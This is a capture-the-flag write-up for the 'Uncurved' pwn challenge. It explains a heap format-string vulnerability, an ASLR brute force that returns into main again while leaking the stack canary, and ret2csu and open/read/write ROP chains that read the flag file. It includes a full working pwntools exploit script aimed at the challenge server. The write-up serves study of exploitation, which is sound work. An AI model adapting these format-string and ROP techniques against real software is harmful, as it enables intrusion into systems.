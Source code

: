 ### **Uncurved**

was a pwn challenge from DigitalOverdose 2021 CTF,

it is a remake from "Curve" a pwn challenge from PBJarCTF 2021, written by Rythm.

basically, it is a format string on heap, with a seccomp to forbid execve onegadgets...

I did not participate to DigitalOverdose CTF because I wasn't there, I did it after the the CTF ends, just to practice..

Here is my solution so..

**let's check first the protections of the binary:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/DigitalOverdose.2021/pwn/uncurved/pics/checksec.png)

**and let's check also the seccomp in place:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/DigitalOverdose.2021/pwn/uncurved/pics/seccomp.png)

As you can see, only open, read, write, are usefull for us...the rest is forbidden..

**let's reverse the program to see the vuln:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/DigitalOverdose.2021/pwn/uncurved/pics/reverse.png)

Unlike the original "Curve" challenge, the first input from user, at 'Input 1:',  is zero terminated this time,

and the buffer s[] on stack is filled with zeroes, so we can not leak an address on stack like in "Curve"

There is still a big buffer overflow, in the "Input 1" , but as there is a canary in place, we can not use it directly..

The last "Input 3:" , is directly passed to printf(),  so there is a format string vulnerability here as in the original challenge.

So our strategy will be to first try to do a ret2main, with the format string vulnerability, and to leak the canary at the same time...

then when the ret2main will succeed, we can simply do a open/read/write ROP, to dump the flag with the "Input 1" buffer overflow,

as we will know the canary value at this time..

to do the ret2main, we will use a classic strategy for format string on heap...

**let's examine the stack state just before the last printf() where the format string vuln is:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/DigitalOverdose.2021/pwn/uncurved/pics/stack.png)

In red, you can see on the picture above, the _libc_start_main+234,  where the program will return after main() function.

it is at format string pos 27,  and just after it at pos 28, there is a pointer to &argv[0] on stack (which is at pos 57)

so we will use a format string to write to pos57 two last lsb bytes, with the pointer 28

and we will bruteforce the 12bits of ASLR, to make pointer 57 points on stack pos 27 (the return address)

then we will write 0x03 byte to return address to return at _libc_start_main+227,

that will call main again.. a ret2main so...

as always with format string on heap, you can not access stack positions, with positional notation,

but you have to increase pos, one by one with '%c'..

the bruteforce will not take too much time, depending on your connection speed, server responsiveness, and luck... (minutes probably, less than an hour for sure..)

at the end of our format string, we will add '%25$p' to leak canary value that is at pos 25.

When the ret2main will succeed, we will receive again the 'Input 1:' string...with the canary value..

next part is just a classic ROP...

**here is a successfull session for example:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/DigitalOverdose.2021/pwn/uncurved/pics/gotflag.png)


**and here is the code of the exploit:**

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF('./uncurved')
libc = ELF('./libc.so.6')
r = ROP(exe)

host, port = "193.57.159.27", "46219"

count=0
# we are trying a ret2main, and a leak of canary at the same time
# bruteforce 12bits of ASLR , 1/4096 chance to success.. 
# server answers quick but could take time depending on luck
#
print('ASLR bruteforce starts...')
while (count<10000):
  print(str(count))
  if args.REMOTE:
    p = remote(host,port)
  else:
    p = process(exe.path)

  offset = 1
  p.sendafter('Input 1:\n', 'a'*(offset*8))
  p.sendafter('Input 2:\n', 'a'*(offset*8))

  payload = '%c'*26+'%5758c'+'%hn'+'%c'*27+'%80c'+'%hhn'+'%25$p'
  p.sendafter('Input 3:\n', payload)
  try:
    buff=p.recvuntil('Input 1:\n', timeout=3)
    break
  except:
    p.close()
    count += 1

# get our canary leak
print(buff)
off = buff.find('0x')
canary = int(buff[off:off+18],16)
print('canary = '+hex(canary))

payload = 'A'*0x88+p64(canary)+p64(0xdeadbeef)

# ret2csu gadgets
set_csu = next(exe.search(asm('pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret'), executable = True))
call_csu = next(exe.search(asm('mov rdx, r14; mov rsi, r13; mov edi, r12d')))
def do_ret2csu(edi=0,rsi=0,rdx=0, func=0, rbx=0,rbp=0,r12=0,r13=0,r14=0,r15=0):
   global set_csu
   global call_csu
   return p64(set_csu)+p64(0)+p64(1)+p64(edi)+p64(rsi)+p64(rdx)+p64(func)+p64(call_csu)+p64(0)+p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)


buff = exe.bss(0xa00)	# a buffer in bss

# 1st ROP payload -->  leak puts libc address & read second ROP payload in bss & pivot to it
r.puts(exe.got['puts'])
r.raw(do_ret2csu(0,buff,0x100,func=exe.got['read']))
r.migrate(buff+24)
p.send(payload+r.chain())

p.sendafter('Input 2:\n', 'a')
p.sendafter('Input 3:\n', 'ab')

# get our libc leak & calculate libc base
p.recvuntil('Rythm.\n', drop=True)
libc.address = u64(p.recvuntil('\n',drop=True).ljust(8,'\x00')) - libc.symbols['puts']
print('libc base = '+hex(libc.address))

# second ROP payload open flag.txt / read it / dump it
if args.REMOTE:
  payload2 = '/srv/app/flag.txt'.ljust(24,'\x00')
else:
  payload2 = './flag.txt'.ljust(24,'\x00')
rop2 = ROP(libc)
syscall = rop2.find_gadget(['syscall', 'ret'])[0]
xchg_eax_edi = libc.address + 0x000000000012a03c # xchg eax, edi ; ret
rop2(rax=2)
rop2.call(syscall,[buff,0,0])
rop2.raw(p64(xchg_eax_edi))
rop2(rsi=0x404100,rdx=0x100)
rop2.call(exe.symbols['read'])
rop2.call(exe.symbols['puts'], [0x404100])
p.send(payload2+rop2.chain())

p.interactive()
```

*nobodyisnobody still pwning things...*

